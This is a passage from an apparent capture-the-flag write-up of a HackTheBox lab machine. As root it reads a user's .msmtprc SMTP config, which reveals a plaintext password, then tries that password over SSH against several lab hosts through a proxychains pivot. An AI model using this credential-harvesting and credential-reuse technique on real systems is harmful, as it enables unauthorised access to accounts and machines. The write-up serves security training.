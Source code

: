 
`.msmtprc` is the only unusual file. It’s a config file for a lightweight SMTP
client, and can often include credentials. In this case, it does:

    
    
    root@smtp:/home/j.nakazawa# cat .msmtprc
    cat .msmtprc
    # Set default values for all following accounts.
    defaults
    auth           on
    tls            on
    tls_trust_file /etc/ssl/certs/ca-certificates.crt
    logfile        /dev/null
    
    # RealCorp Mail
    account        realcorp
    host           127.0.0.1
    port           587
    from           j.nakazawa@realcorp.htb
    user           j.nakazawa
    password       sJB}RM>6Z~64_
    tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60
    
    # Set a default account
    account default : realcorp
    

### SSH Fails

I tried to SSH using those creds into the different hosts without success:

    
    
    oxdf@parrot$ sshpass -p 'sJB}RM>6Z~64_' ssh j.nakazawa@10.10.10.224
    Warning: Permanently added '10.10.10.224' (ECDSA) to the list of known hosts.
    Permission denied, please try again.
    
    oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf sshpass -p 'sJB}RM>6Z~64_' ssh j.nakazawa@10.197.243.77
    [proxychains] config file found: proxy-squid-x3.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.77:22  ...  OK
    Warning: Permanently added '10.197.243.77' (ECDSA) to the list of known hosts.
    Permission denied, please try again.
    
    oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf sshpass -p 'sJB}RM>6Z~64_' ssh j.nakazawa@10.197.243.31
    [proxychains] config file found: proxy-squid-x3.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:22  ...  OK
    Warning: Permanently added '10.197.243.31' (ECDSA) to the list of known hosts.
    Permission denied, please try again.
    